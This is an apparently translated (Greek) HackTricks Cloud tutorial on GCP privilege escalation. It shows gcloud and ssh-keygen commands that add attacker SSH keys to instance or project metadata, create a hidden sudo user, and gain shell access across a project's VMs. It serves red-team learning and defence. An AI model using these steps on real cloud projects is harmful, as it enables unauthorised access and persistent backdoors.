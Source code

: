# GCP - Προσθήκη Προσαρμοσμένων SSH Μεταδεδομένων

## GCP - Προσθήκη Προσαρμοσμένων SSH Μεταδεδομένων

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Τροποποίηση των μεταδεδομένων <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Η τροποποίηση των μεταδεδομένων σε μια παρουσία μπορεί να οδηγήσει σε **σημαντικούς κινδύνους ασφαλείας αν ένας επιτιθέμενος αποκτήσει τις απαραίτητες άδειες**.

#### **Ενσωμάτωση Κλειδιών SSH σε Προσαρμοσμένα Μεταδεδομένα**

Στο GCP, **τα συστήματα Linux** εκτελούν συχνά σενάρια από το [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Ένα κρίσιμο στοιχείο αυτού είναι το [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), το οποίο έχει σχεδιαστεί για να **ελέγχει τακτικά** το σημείο μεταδεδομένων της παρουσίας για **ενημερώσεις στα εξουσιοδοτημένα δημόσια κλειδιά SSH**.

Επομένως, αν ένας επιτιθέμενος μπορεί να τροποποιήσει τα προσαρμοσμένα μεταδεδομένα, θα μπορούσε να κάνει το daemon να βρει ένα νέο δημόσιο κλειδί, το οποίο θα επεξεργαστεί και θα **ενσωματωθεί στο τοπικό σύστημα**. Το κλειδί θα προστεθεί στο αρχείο `~/.ssh/authorized_keys` ενός **υπάρχοντος χρήστη ή ενδεχομένως να δημιουργήσει έναν νέο χρήστη με δικαιώματα `sudo`**, ανάλογα με τη μορφή του κλειδιού. Και ο επιτιθέμενος θα είναι σε θέση να παραβιάσει τον υπολογιστή.

#### **Προσθήκη κλειδιού SSH σε υπάρχοντα προνομιούχο χρήστη**

1. **Εξετάστε τα Υπάρχοντα Κλειδιά SSH στην Παρουσία:**
*   Εκτελέστε την εντολή για να περιγράψετε την παρουσία και τα μεταδεδομένα της για να εντοπίσετε τα υπάρχοντα κλειδιά SSH. Η σχετική ενότητα στην έξοδο θα είναι κάτω από `metadata`, συγκεκριμένα το κλειδί `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Προσέξτε τη μορφή των κλειδιών SSH: το όνομα χρήστη προηγείται του κλειδιού, χωρισμένο με άνω και κάτω τελεία.
2. **Ετοιμάστε ένα Αρχείο Κειμένου για τα Μεταδεδομένα Κλειδιού SSH:**
* Αποθηκεύστε τις λεπτομέρειες των ονομάτων χρηστών και των αντίστοιχων κλειδιών SSH σε ένα αρχείο κειμένου με όνομα `meta.txt`. Αυτό είναι απαραίτητο για τη διατήρηση των υπαρχόντων κλειδιών ενώ προσθέτετε νέα.
3. **Δημιουργήστε ένα Νέο Κλειδί SSH για τον Στόχο Χρήστη (`alice` σε αυτό το παράδειγμα):**
*   Χρησιμοποιήστε την εντολή `ssh-keygen` για να δημιουργήσετε ένα νέο κλειδί SSH, διασφαλίζοντας ότι το πεδίο σχολίου (`-C`) ταιριάζει με το όνομα του στόχου χρήστη.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Προσθέστε το νέο δημόσιο κλειδί στο `meta.txt`, μιμούμενοι τη μορφή που βρέθηκε στα μεταδεδομένα της παρουσίας.
4. **Ενημερώστε τα Μεταδεδομένα Κλειδιού SSH της Παρουσίας:**
*   Εφαρμόστε τα ενημερωμένα μεταδεδομένα κλειδιού SSH στην παρουσία χρησιμοποιώντας την εντολή `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Πρόσβαση στην Παρουσία Χρησιμοποιώντας το Νέο Κλειδί SSH:**
*   Συνδεθείτε στην παρουσία με SSH χρησιμοποιώντας το νέο κλειδί, αποκτώντας πρόσβαση στο shell στο πλαίσιο του στόχου χρήστη (`alice` σε αυτό το παράδειγμα).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Δημιουργία νέου προνομιούχου χρήστη και προσθήκη κλειδιού SSH**

Αν δεν βρεθεί ενδιαφέρον χρήστης, είναι δυνατόν να δημιουργηθεί ένας νέος που θα του δοθούν δικαιώματα `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

Είναι δυνατόν να διευρυνθεί η πρόσβαση SSH σε πολλές Εικονικές Μηχανές (VMs) σε ένα περιβάλλον cloud **εφαρμόζοντας τα κλειδιά SSH σε επίπεδο έργου**. Αυτή η προσέγγιση επιτρέπει την πρόσβαση SSH σε οποιαδήποτε παρουσία εντός του έργου που δεν έχει ρητά αποκλείσει τα κλειδιά SSH σε επίπεδο έργου. Ακολουθεί ένας συνοπτικός οδηγός:

1. **Εφαρμογή Κλειδιών SSH σε Επίπεδο Έργου:**
*   Χρησιμοποιήστε την εντολή `gcloud compute project-info add-metadata` για να προσθέσετε τα κλειδιά SSH από το `meta.txt` στα μεταδεδομένα του έργου. Αυτή η ενέργεια διασφαλίζει ότι τα κλειδιά SSH αναγνωρίζονται σε όλες τις VMs του έργου, εκτός αν μια VM έχει ενεργοποιημένη την επιλογή "Αποκλεισμός κλειδιών SSH σε επίπεδο έργου".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH σε Παρουσίες Χρησιμοποιώντας Κλειδιά σε Επίπεδο Έργου:**
* Με τα κλειδιά SSH σε επίπεδο έργου σε εφαρμογή, μπορείτε να κάνετε SSH σε οποιαδήποτε παρουσία εντός του έργου. Οι παρουσίες που δεν αποκλείουν τα κλειδιά σε επίπεδο έργου θα αποδεχτούν το κλειδί SSH, παρέχοντας πρόσβαση.
* Μια άμεση μέθοδος για να κάνετε SSH σε μια παρουσία είναι η χρήση της εντολής `gcloud compute ssh [INSTANCE]`. Αυτή η εντολή χρησιμοποιεί το τρέχον όνομα χρήστη σας και τα κλειδιά SSH που έχουν οριστεί σε επίπεδο έργου για να προσπαθήσει να αποκτήσει πρόσβαση.

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
